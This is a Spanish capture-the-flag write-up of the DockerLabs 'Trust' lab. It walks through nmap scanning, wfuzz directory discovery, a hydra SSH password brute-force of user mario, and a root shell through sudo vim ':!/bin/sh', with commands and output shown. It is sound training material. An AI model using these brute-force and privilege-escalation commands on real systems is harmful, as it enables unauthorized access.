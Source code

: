 ```yaml
---
title: Trust
date: 2025-08-23 18:00:00 +0200
categories: [writeup, dockerlabs]
tags: [dockerlabs, explotación web, escalada privilegios]     
image:
    path: https://dockerlabs.es/static/images/logos/logo.png
    alt: Docker Labs
---
```


## Trust

>Autor: El Pingüino de Mario
Dificultad: Muy Fácil
Fecha de creación: 22/04/2025
{: .prompt-tip }

Como es tan sencillo usar los contenedores de Dockerlabs he pensado creo que voy a empezar a lanzarlos directamente dentro de la máquina Kali25, por homogeneizar un entorno, aunque habrá herramientas que acabe instalado por necesidad de los retos.  

## Reconocimiento
Lanzo el contenedor y para empezar visito la dirección a ver si tiene un servidor web corriendo y lo tiene, pero con la página por defecto **Apache2 Debian Default Page**

Viendo esto opto por el escaneo con nmap. 

```shell
┌──(kali㉿kali25)-[~/Dockerlabs/trust]
└─$ nmap -p- -sV -T4 -vv 10.89.0.2    
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-23 15:43 CEST
NSE: Loaded 47 scripts for scanning.
Initiating ARP Ping Scan at 15:43
Scanning 10.89.0.2 [1 port]
Completed ARP Ping Scan at 15:43, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:43
Completed Parallel DNS resolution of 1 host. at 15:44, 13.00s elapsed
Initiating SYN Stealth Scan at 15:44
Scanning 10.89.0.2 [65535 ports]
Discovered open port 22/tcp on 10.89.0.2
Discovered open port 80/tcp on 10.89.0.2
Completed SYN Stealth Scan at 15:44, 0.85s elapsed (65535 total ports)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
MAC Address: E6:35:17:0B:61:11 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.45 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

Para buscar páginas no listadas uso la herramienta **Wfuzz** y como payloads un listado de directorios de **Seclist**

``` shell
┌──(kali㉿kali25)-[~/Dockerlabs/trust]
└─$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt --hc 404 http://10.89.0.2/FUZZ.php 

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.89.0.2/FUZZ.php
Total requests: 1273832

=====================================================================
ID           Response   Lines    Word       Chars       Payload                           
===================================================================== 
000005261:   200        39 L     78 W       926 Ch      "secret"    
```

Parece que encontramos una web **secret.php**

``` html

Hola Mario,

Esta web no se puede hackear.
```

## Explotación

Después de una inspección con el navegador, parece que efectivamente la web va a ser difícil de hackear, no tiene ningún punto de entrada, tampoco tiene controles, ni parece recibir ningún tipo de parámetro o siquiera ofrece unas cookies durante la sesión, con lo que no parece "hackeable".

¿Probamos con la fuerza bruta? Al menos tenemos un posible usuario **mario**

``` shell
┌──(kali㉿kali25)-[~/Dockerlabs/trust]
└─$ hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://10.89.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-23 21:01:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.89.0.2:22/
[22][ssh] host: 10.89.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
```
Vaya parece que ***mario*** usa una password muy débil que nos va a permitir entrar al sistema por SSH.

## Escalada de privilegios

``` shell
                                                                                                                                                            
┌──(kali㉿kali25)-[~/Dockerlabs/trust]
└─$ ssh mario@10.89.0.2
mario@10.89.0.2's password: 
mario@2dc2475cc677:~$ sudo -l
Matching Defaults entries for mario on 2dc2475cc677:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 2dc2475cc677:
    (ALL) /usr/bin/vim
```
Lo interesante aquí es saber que parece que puede correr vim con privilegios, eso me hace pensar que es posible utilizar vim para o escalar privilegios. Si consultamos [https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/) nos sugiere explotar vim de la siguiten manera

It can be used to break out from restricted environments by spawning an interactive system shell.
>vim -c ':!/bin/sh'

Efectivamente podemos llamar a una shell desde vim, probemos pero con privilegios.
``` shell
mario@79321b51ed1e:~$ sudo vim -c ':!/bin/sh'
[sudo] password for mario: 

# whoami
root
```

La web era solo para obtener información del usuario. Luego tenemos la fuerza bruta contra un servicio SSH, claro que con una contraseña muy débil y por último elevación de privilegios mediante una configuración insegura en este caso del fichero ```/etc/sudoers```


